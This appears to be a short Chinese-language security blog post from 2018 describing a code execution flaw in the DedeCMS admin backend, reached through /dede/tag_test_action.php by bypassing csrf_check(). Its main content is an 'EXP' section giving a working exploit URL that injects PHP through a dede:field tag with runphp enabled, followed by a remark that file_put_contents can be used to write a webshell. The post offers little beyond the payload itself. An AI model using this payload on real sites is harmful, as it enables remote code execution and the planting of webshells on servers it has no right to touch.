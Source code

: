 ```yaml
---
title: "dedecms 后台代码执行"
date: 2018-03-30T00:00:00+08:00
draft: false
tags: ['cms','php']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


该漏洞的触发点为 /dede/tag_test_action.php. 起因是 csrf_check() 的绕过, 导致可执行任意代码.

<!--more-->

## EXP

`/dede/tag_test_action.php?url=a&token=&partcode={dede:field name='source' runphp='yes'}phpinfo();{/dede:field}`

根据情况更改后台路径

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/30/1522407172.jpg)

file_put_contents 直接写 webshell